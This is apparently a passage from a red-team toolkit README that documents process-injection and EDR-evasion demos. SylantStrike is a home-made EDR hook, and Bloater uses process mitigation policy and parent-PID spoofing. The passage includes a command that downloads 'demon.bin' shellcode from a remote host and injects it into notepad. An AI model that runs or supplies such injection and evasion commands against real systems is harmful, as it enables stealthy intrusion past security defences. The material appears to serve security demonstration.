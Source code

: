 ```

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] Clicker.exe removed from disk!
```

### SylantStrike
Home-made Endpoint Detection & Response (EDR) to hook NT*API calls. The hooking logic is not implemented perfectly and has a high chance of false positive. Use only for demonstrating EDR bypass.
```
PS C:\Users\havoc\Desktop\Tools\SylantStrike\x64\Release> .\SylantStrikeInject.exe --process=Clicker.exe --dll=C:\Users\havoc\Desktop\Tools\SylantStrike\x64\Release\SylantStrike.dll
Waiting for process events
+ Listening for the following processes: clicker.exe

 Injecting process Clicker.exe(4312) with DLL C:\Users\havoc\Desktop\Tools\SylantStrike\x64\Release\SylantStrike.dll
```

### Bloater
Bloater is a wrapper used to side-load `Clicker` for demonstrating Process Mitigation Policy. This technique prevents security vendors from reflectively loading EDR DLLs that are not digitally signed by Microsoft. As a result, `kernel32.dll` and `ntdll.dll` of newly spawned processes will not be hooked by EDR vendors unless they have Intermediate Certificates handed out by Microsoft.
```
C:\>Bloater.exe -f ./Clicker.exe -p 4160 -u http://192.168.231.128:9090/demon.bin -t notepad -s 4160
                                                                    _
                                                                  _( (~\
           _ _                        /                          ( \> > \
       -/~/ / ~\                     :;                \       _  > /(~\/
      || | | /\ ;\                   |l      _____     |;     ( \/    > >
      _\\)\)\)/ ;;;                  `8o __-~     ~\   d|      \      //
     ///(())(__/~;;\                  "88p;.  -. _\_;.oP        (_._/ /
    (((__   __ \\   \                  `>,% (\  (\./)8"         ;:'  i
    )))--`.'-- (( ;,8 \               ,;%%%:  ./V^^^V'          ;.   ;.
    ((\   |   /)) .,88  `: ..,,;;;;,-::::::'_::\   ||\         ;[8:   ;
     )|  ~-~  |(|(888; ..``'::::8888oooooo.  :\`^^^/,,~--._    |88::  |
     |\ -===- /|  \8;; ``:.      oo.8888888888:`((( o.ooo8888Oo;:;:'  |
     |_~-___-~_|   `-\.   `        `o`88888888b` )) 888b88888P""'     ;
     ; ~~~~;~~         "`--_`.       b`888888888;(.,"888b888"  ..::;-'
       ;      ;              ~"-....  b`8888888:::::.`8888. .:;;;''
          ;    ;                 `:::. `:::OOO:::::::.`OO' ;;;''
     :       ;                     `.      "``::::::''    .'
        ;                           `.   \_              /
      ;       ;                       +:   ~~--  `:'  -';
                                       `:         : .::/    Bloater
          ;                            ;;+_  :::. :..;;;
                                       ;;;;;;,;;;;;;;;,;

Process Injector 3 (Wrapper): Bloater (Process Mitigation Policy)

  -f, --file       Required. Absolute path of file to be executed.

  -p, --parent     Required. Spoof --file under a Parent Process ID.

  -u, --url        Required. Remote URL address for raw shellcode.

  -t, --target     Specify the target/victim process. Default: Self-injection

  -s, --spoof      Spoof --target under a Parent Process ID.

```